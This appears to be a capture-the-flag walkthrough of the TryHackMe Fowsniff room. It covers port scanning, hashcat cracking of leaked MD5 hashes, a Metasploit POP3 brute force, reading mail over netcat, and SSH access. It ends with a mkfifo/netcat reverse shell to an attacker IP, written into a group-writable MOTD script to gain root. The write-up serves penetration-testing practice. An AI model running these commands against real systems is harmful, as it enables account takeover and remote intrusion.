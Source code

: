 ```yaml
---
description: https://tryhackme.com/room/ctf
---
```


# Fowsniff CTF

### **What ports are open?**

```
nmap 10.10.147.108
```

![](<../../.gitbook/assets/Screenshot from 2020-09-24 16-31-18.png>)

### **Look around. What can you find?**

![](<../../.gitbook/assets/Screenshot from 2020-09-24 17-21-55.png>)

### **Using Google, can you find any public information about them?**

![](<../../.gitbook/assets/Screenshot from 2020-09-24 16-33-56.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-24 16-35-09.png>)

### **Can you decode these md5 hashes?**

```
hashcat -a 0 -m 0 md5.txt /usr/share/wordlists/rockyou.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-24 16-38-18.png>)

### **Using the usernames and passwords you captured, can you use metasploit to brute force the pop3 login?**

```
msfconsole -q
msf > search pop3
msf > use 0
msf > set RHOSTS 10.10.147.108
msf > set USERPASS_FILE userpass.txt
msf > unset USER_FILE
msf > unset PASS_FILE
msf > exploit
```

![](<../../.gitbook/assets/Screenshot from 2020-09-24 17-00-55.png>)

### **What was seina's password to the email service?**

> scoobydoo2

### **Looking through her emails, what was a temporary password set for her?**

```
nc 10.10.147.108 110
USER seina
PASS scoobydoo2
LIST
RETR 1
RET 2
```

![](<../../.gitbook/assets/Screenshot from 2020-09-24 17-06-31.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-24 17-12-51.png>)

### **Using the password from the previous question and the senders username, connect to the machine using SSH. Once connected, what groups does this user belong to? Are there any interesting files that can be run by that group?**

```
ssh baksteen@10.10.147.108
id
find / -type f -group users 2>/dev/null
```

![](<../../.gitbook/assets/Screenshot from 2020-09-24 17-14-10.png>)

### **Now you have found a file that can be edited by the group, can you edit it to include a reverse shell?**

```
tail /etc/update-motd.d/00-header
echo -n 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.101.193 4444 >/tmp/f' > /opt/cube/cube.sh
```

![](<../../.gitbook/assets/Screenshot from 2020-09-24 17-16-51.png>)

### **Start a netcat listener and then re-login to the SSH service.**

```
nc -nvlp 4444
# id
```

![](<../../.gitbook/assets/Screenshot from 2020-09-24 17-20-24.png>)

### :link: Support Material

{% embed url="https://www.shellhacks.com/retrieve-email-pop3-server-command-line/" %}


